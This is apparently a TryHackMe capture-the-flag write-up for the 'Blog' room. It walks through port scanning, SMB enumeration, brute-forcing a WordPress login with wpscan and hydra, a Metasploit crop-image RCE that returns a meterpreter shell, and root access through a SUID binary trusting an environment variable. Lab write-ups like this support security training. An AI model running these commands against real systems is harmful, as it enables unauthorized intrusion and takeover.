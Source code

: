 ```yaml
---
title: Blog - Medium THM # name your WU = Name - [Level] [Platform]
date: 2023-12-05 11:20:23 +/-0800 # configure the date same as the name of your file
categories: [writeup, tryhackme] # categories, First the parents than the child-category, 2 or 3 MAX !
writeup: :title # don't touch me!
permalink: /blog # / and the name
tags: [Web, CMS] #TAG names always lowercase (a,b,c,d,e,f...)
---
```


- OS: Linux
- Difficulty: Medium
- Author: Talace

## **Scanning**
### Threader3000.py
```
Port 22 is open
Port 139 is open
Port 80 is open
Port 445 is open
```

### Nmap scan
```
nmap -p21,80 -sV -sC -T4 -Pn -oA 10.10.10.5 10.10.10.5

PORT    STATE SERVICE     VERSION
22/tcp  open  ssh         OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp  open  http        Apache httpd 2.4.29 ((Ubuntu))
|_http-generator: WordPress 5.0
|_http-title: Billy Joel&#039;s IT Blog &#8211; The IT blog
|_/wp-admin/
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open              Samba smbd 4.7.6-Ubuntu (workgroup: WORKGROUP)
Service Info: Host: BLOG; OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
## **Enumeration**
### SMB Enumeration with enum4linux & smbclient
```
enum4linux 10.10.15.175 -A

Sharename       Type      Comment
---------       ----      -------
print$          Disk      Printer Drivers
BillySMB        Disk      Billy's local SMB Share
IPC$            IPC       IPC Service (blog server (Samba, Ubuntu))
```

Now that we've found some shared folder, let's dig in it.
```
smbclient --no-pass //10.10.15.175/BillySMB

  Alice-White-Rabbit.jpg              N    33378  Tue May 26 14:17:01 2020
  tswift.mp4                          N  1236733  Tue May 26 14:13:45 2020
  check-this.png                      N     3082  Tue May 26 14:13:43 2020
```

Found nothing interesting, let's go on the wordpress
## Exploit
### Brute force login page w/ hydra & wpscan
#### wpscan brute force attack login
```
wpscan --url http://blog.thm/ --passwords /usr/share/wordlists/rockyou.txt
```
#### (another way with hydra) Hydra brute force attack login
```
hydra -l kwheel -P /usr/share/wordlists/rockyou.txt blog.thm http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In&redirect_to=http%3A%2F%2Fblog.thm%2Fwp-admin%2F&testcookie=1:F=The password you entered for the username"
```

now let's search for an exploit in metasploit
```
search WordPress 5.0.0

#  Name                            Disclosure Date  Rank       Check  Description
-  ----                            ---------------  ----       -----  -----------
0  exploit/multi/http/wp_crop_rce  2019-02-19       excellent  Yes    WordPress Crop-image Shell Upload
```

Perfect! Let's try it!
```
set LHOST 10.8.138.226
set RHOSTS 10.10.15.175
set USERNAME kwheel
set PASSWORD *********

run
```

Nice we get our meterpreter session!

## **Privilege escalation**
### Suid file

Found the file
```
find / -user root -perm -4000 -exec ls -ldb {} \; 2>/dev/null\

-rwsr-sr-x 1 root root 8432 May 26  2020 /usr/sbin/checker
```

Ltrace it to see what's done in there
```
ltrace /usr/sbin/checker

getenv("admin")                                  = "1"
setuid(0)                                        = 0
system("/bin/bash")
```

Since we only need admin to be true and present in the env, let's export the value
```
export admin=1
```

And run it again!
```
/usr/sbin/checker
```

Got root!
Now let's find user.txt and root.txt, since we now the creator of this box is a player
```
find / -type f -name "user.txt"

/home/bjoel/user.txt
/media/usb/user.txt
```

And root.txt!
```
find / -type f -name "user.txt"


/root/root.txt
```
